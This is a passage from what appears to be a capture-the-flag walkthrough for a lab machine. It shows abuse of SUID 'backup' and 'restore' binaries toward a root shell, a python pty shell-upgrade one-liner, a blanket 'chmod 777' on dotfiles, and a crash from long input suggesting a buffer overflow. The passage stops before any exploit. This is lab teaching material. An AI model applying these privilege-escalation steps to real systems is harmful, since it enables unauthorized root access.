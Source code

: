 We launch the backup program:

    :::text
    [bryan@fII bin]$ /usr/local/bin/backup
    sh-4.2$ id
    id
    uid=1002(sean) gid=1001(bryan) groups=1002(sean),1001(bryan)

### root me?

Let get us back a real shell:

    :::text
    python -c 'import pty; pty.spawn("/bin/bash")'

You may need to change the permission of bryan's `.bashrc` as you can get an
error about it:

    :::text
    [bryan@fII ~]$ chmod 777 ~/.*

(Yes I had to exit the shell and start again the operations :/)

Next we need to use the `restore` program also in `/usr/local/bin/` own by root
with the SUID set and executable by the `sean` group. First we need to change
our group (as the one used is `bryan`).

    :::text
    newgrp sean

Let us try the program by creating and empty archive in `/tmp/`:

    :::text
    [sean@fII storage]$ cd /tmp/
    [sean@fII tmp]$ touch backup.tar.gz
    [sean@fII tmp]$ cd /usr/local/bin
    [sean@fII bin]$ ./restore
    Restore tool v0.1
    Enter the path to the backup.tar.gz: /tmp/
    Path is: /tmp/
    Enter the output directory: /tmp/
    Output directory is: /tmp/
    This is a beta, run the following command for now:
    /bin/sh -c "/usr/bin/tar xf /tmp/backup.tar.gz -C /tmp/ database.sqlite"
    You are currently running this tool as:
    uid=0(root) gid=0(root) groups=0(root),1001(bryan),1002(sean)

This looks like we would have to use a buffer overflow the get a root shell as
the program segfault when the input for the "output directory" is too long:

    :::text
    [sean@fII tmp]$ /usr/local/bin/restore
    /usr/local/bin/restore
    Restore tool v0.1
    Enter the path to the backup.tar.gz: /tmp/
    /tmp/
    Path is: /tmp/
    Enter the output directory: qwertyuiopasdfghjklzxcvbnmqwertyuiopasdfghjklqwertyuiopasdfghjklzxcvbnmqwertyuiop
    qwertyuiopasdfghjklzxcvbnmqwertyuiopasdfghjklqwertyuiopasdfghjklzxcvbnmqwertyuiop
    Output directory is: qwertyuiopasdfghjklzxcvbnmqwertyuiopasdfghjklqwertyuiopasdfghjklzxcvbnmqwertyuiop
    Segmentation fault
